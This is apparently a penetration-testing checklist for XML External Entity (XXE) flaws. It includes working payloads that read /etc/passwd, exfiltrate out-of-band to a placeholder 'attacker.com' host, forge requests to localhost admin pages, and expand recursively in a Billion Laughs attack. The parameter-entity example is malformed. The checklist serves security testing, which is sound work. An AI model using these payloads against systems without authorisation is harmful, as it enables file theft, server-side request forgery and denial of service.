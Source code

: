 1.  **Initial Information Gathering**
    - [ ] Identify and map all endpoints that accept XML input.
    - [ ] Review source code (if available) to understand XML parsing mechanisms.
    - [ ] Check for user inputs in XML request bodies, SOAP messages, and API endpoints.

2.  **Basic XXE Testing**
    - [ ] Test with a basic XXE payload to identify vulnerabilities:
    ```xml
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    <foo>&xxe;</foo>
    ```
    - [ ] Inject the payload in different parts of the XML (e.g., elements, attributes).

3.  **XXE Payloads**
    - [ ] Test for blind XXE using out-of-band (OOB) techniques:
    ```xml
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://attacker.com/xxe" >]>
    <foo>&xxe;</foo>
    ```
    - [ ] Test for SSRF (Server-Side Request Forgery):
    ```xml
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://localhost:8080/admin" >]>
    <foo>&xxe;</foo>
    ```
    - Test for file inclusion vulnerabilities with common files:
        - [ ] `/etc/passwd`
        - [ ] `/etc/hosts`
        - [ ] `C:\Windows\win.ini`

4.  **Parameter Entities and XML Injection**
    - [ ] Test with parameter entities:
    ```xml
    <!DOCTYPE foo [
      <!ENTITY % xxe SYSTEM "file:///etc/passwd" >
      <!ENTITY xxe "<!ENTITY evil SYSTEM 'file:///etc/passwd' >" >]>
    <foo>&xxe;</foo>
    ```
    - [ ] Test XML injection to manipulate the structure and content:
    ```xml
    <root>
      <data>
        <xxe>&xxe;</xxe>
      </data>
    </root>
    ```
    
5.  **Recursive Entities**
    - [ ] Test for recursive entity expansion (Billion Laughs Attack):
    ```xml
    <!DOCTYPE lolz [
      <!ENTITY lol "lol">
      <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
      <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
      <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
      <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
      <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
      <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
      <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
      <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
      <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```
    
6.  **Out-of-Band (OOB) Detection**
    - [ ] Set up an OOB endpoint to detect blind XXE:
    ```xml
    <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://yourserver.com/xxe" >]>
    <foo>&xxe;</foo>
    ```
    - [ ] Use tools like Burp Collaborator to capture OOB interactions.

7.  **Error Handling and Response Analysis**
    - [ ] Analyze server responses for clues about XXE vulnerabilities.
    - [ ] Look for error messages that disclose file paths or other sensitive information.
    - [ ] Verify if application stack traces are exposed in responses.

8.  **SOAP Services**
    - [ ] Test SOAP-based services for XXE vulnerabilities:
    ```xml
    <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
      <soap:Body>
        <foo>&xxe;</foo>
      </soap:Body>
    </soap:Envelope>
    ```